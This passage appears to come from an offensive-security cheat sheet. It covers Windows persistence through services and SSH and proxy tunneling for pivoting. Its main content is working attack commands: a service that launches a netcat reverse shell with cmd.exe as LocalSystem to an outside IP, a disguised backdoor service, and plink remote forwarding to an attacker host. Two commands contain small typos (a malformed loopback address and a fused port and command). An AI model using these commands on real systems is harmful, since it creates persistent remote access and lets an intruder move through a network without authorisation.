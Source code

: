 ### Persistence via Services <a id="persistence-via-services"></a>

```bash
# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""​

# powershell
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"
```

### Port Forwarding / SSH Tunneling <a id="port-forwarding-ssh-tunneling"></a>

#### SSH: Local Port Forwarding <a id="ssh-local-port-forwarding"></a>

```bash
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

#### SSH: Dynamic Port Forwarding <a id="ssh-dynamic-port-forwarding"></a>

```bash
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

#### SSH: Remote Port Forwarding <a id="ssh-remote-port-forwarding"></a>

```bash
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

#### Proxy Tunnel <a id="proxy-tunnel"></a>

```bash
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555ssh user@127.0.0.1 -p 5555
```
